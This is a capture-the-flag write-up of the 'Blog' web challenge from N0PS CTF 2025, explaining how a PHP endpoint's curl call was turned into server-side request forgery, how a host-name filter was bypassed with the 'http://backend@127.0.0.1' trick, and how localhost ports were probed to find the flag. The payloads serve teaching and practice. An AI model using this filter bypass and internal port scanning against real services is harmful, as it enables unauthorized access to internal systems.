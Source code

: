 ```yaml
---
title: "N0PS CTF 2025 - Writeup"
summary: "A comprehensive write-up of the N0PS CTF 2025 by Team NOVA, sharing insights and solutions for various challenges tackled during the competition."
date: June 01 2025
draft: false
tags: 
  - Web
---
```


## WebTopia

###  Blog - That Blogged Too Hard

I landed on this simple-looking blog site — nothing too fancy, just three posts with titles like:

* *"How to deal with cuckroaches?"*
* *"My guide to cook chick"*
* *"A Desolate Cry for Help"*

A normal person might just read them.
But I'm in a CTF, so naturally, I tried to break it.

```json
[
  {"id":"1","title":"How to deal with cuckroages ?","name":"oggy"},
  {"id":"2","title":"My guide to cook chick","name":"sylvester"},
  {"id":"3","title":"A Desolate Cry for Help","name":"tom_the_cat"}
]
```

---

###  javaScript Spoils the Mystery

The frontend made it *way too easy* to see how things worked:

```js
fetch('/blog.php?blog=all')
```

&#x20;Clicking one sends:

```
/blog.php?blog=1
```

Clearly, some PHP backend is fetching blog data using that `blog` parameter. Time to mess with it.

---

###  Fuzzin’ and Breakin’

Sent in some spicy nonsense:

```
/blog.php?blog='"`{ ;$Foo}
```

And PHP screamed:

```php
Fatal error: curl_setopt(): cURL option must not contain any null bytes
```

Wait, **curl?**
This thing is making **server-side HTTP requests** to:

```php
curl_setopt($ch, CURLOPT_URL, 'backend/' . $blog);
```

This smells like **SSRF**.

---

### Confirming SSRF: The Fun Way

Tried a NoSQL-style input:

```
/blog.php?blog[$ne]=null
```

Got this gem:

```php
str_starts_with(): Argument #1 ($haystack) must be of type string, array given
```

Aha! It May be doing:

```php
if (str_starts_with($blog, "http://"))
```

Which means if the `blog` param starts with `http://`, it treats it as a **full URL** and passes it to `curl`.

Boom. We’re in SSRF town.

---

### But Then, the Filters

Tried:

```
/blog.php?blog=http://localhost/
```

And got hit with:

```
Warning: Request should only be sent to backend host.
```

Okay, so the site is *filtering* SSRF targets. Probably something like:

```php
if (!str_contains($url, 'backend')) {
  die("Warning: Request should only be sent to backend host.");
}
```

###  `/blog.php?blog=http://backend/`?

* No errors.
* But also **no output**.

Then I tried:

```
/blog.php?blog=http://backend/1
```

It returned the same content as:

```
/blog.php?blog=1
```

So the backend itself is mirroring the same data. Kinda boring, but useful confirmation.

---

### Now the Clever Bit: The \`\`\*\* Bypass\*\*

Tried:

```
/blog.php?blog=http://backend@127.0.0.1/
```

 No warning!
 SSRF request went through.
 Redirected to index page… something’s working…

---

###  Why Does `http://backend@127.0.0.1/` Work?

This is an old SSRF trick using **Basic Auth syntax** in URLs:

```plaintext
http://[username]@[host]/path
```

So `http://backend@127.0.0.1:8080/` is interpreted by the browser or curl (and PHP under the hood) as:

* `backend` = username
* `127.0.0.1:8080` = actual host

**The username is ignored** by the server if there's no password challenge.

✔ The filter sees `"backend"` in the string, so it passes
✔ But the actual request goes to `127.0.0.1:8080`

Classic SSRF bypass. You love to see it.

---

### Port-Scanning the Backyard

I hit all the classics:

```
/blog.php?blog=http://backend@127.0.0.1:5000/
/blog.php?blog=http://backend@127.0.0.1:8000/
/blog.php?blog=http://backend@127.0.0.1:1337/
```

Then:

```
/blog.php?blog=http://backend@127.0.0.1:8080/
```

🎉 Jackpot! 🎉

And staring back at me was:

```
N0PS{S5rF_1s_Th3_n3W_W4y}
```

---

### TL;DR

* Frontend calls `/blog.php?blog=all`, individual posts via ID
* Backend does:

  * `curl_setopt($ch, CURLOPT_URL, 'backend/' . $blog);`
  * Or, if it starts with `http://`, uses it as a full URL
* Localhost SSRF blocked with filter
* Tried:

  * `/blog.php?blog=http://backend/` → no output
  * `/blog.php?blog=http://backend/1` → same blog content as `/blog.php?blog=1`
* Bypassed filter with `http://backend@127.0.0.1:8080/`
* Port 8080 had the flag \`N0PS{S5rF\_1s\_Th3\_n3W\_W4y}\`

---

